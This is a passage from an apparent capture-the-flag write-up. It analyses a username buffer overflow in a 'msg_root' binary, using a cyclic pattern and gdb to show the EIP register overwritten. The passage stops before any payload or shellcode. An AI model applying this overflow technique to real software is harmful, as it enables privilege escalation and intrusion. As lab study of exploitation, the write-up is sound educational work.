     free((char *)fp);
}
{% endhighlight %}

All the work on the message seems to be done on the heap, so no overflow there.
What about the username? It sounds interesting: if we provide something longer than 17 characters, it's going to end up in the buffer without the termination character `\x00`.
Let's see if we can use this to overflow the buffer and overwrite the `EIP` register.

First of all I generated off-line a characteristic pattern string, by using [sploit-tools](https://github.com/SaltwaterC/sploit-tools) (inspired by their counterpart in the Metasploit framework, but more portable).

{% highlight bash %}
» python pattern.py create 20
Aa0Aa1Aa2Aa3Aa4Aa5Aa
{% endhighlight %}

Then, back inside the machine, I attached the `msg_root` executable to `gdb` and tried the overflow.

{% highlight bash %}
$ gdb msg_root
gdb msg_root
GNU gdb (GDB) 7.4.1-debian
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /home/reynard/msg_root...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa foo
run Aa0Aa1Aa2Aa3Aa4Aa5Aa foo
Starting program: /home/reynard/msg_root Aa0Aa1Aa2Aa3Aa4Aa5Aa foo

Program received signal SIGSEGV, Segmentation fault.
0x35614134 in ?? ()
(gdb) info reg
info reg
eax            0x35614134	895566132
ecx            0x6f	111
edx            0xbfffff36	-1073742026
ebx            0xb7fd6ff4	-1208127500
esp            0xbffffd24	0xbffffd24
ebp            0xbffffd48	0xbffffd48
esi            0x0	0
edi            0x0	0
eip            0x35614134	0x35614134
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
{% endhighlight %}
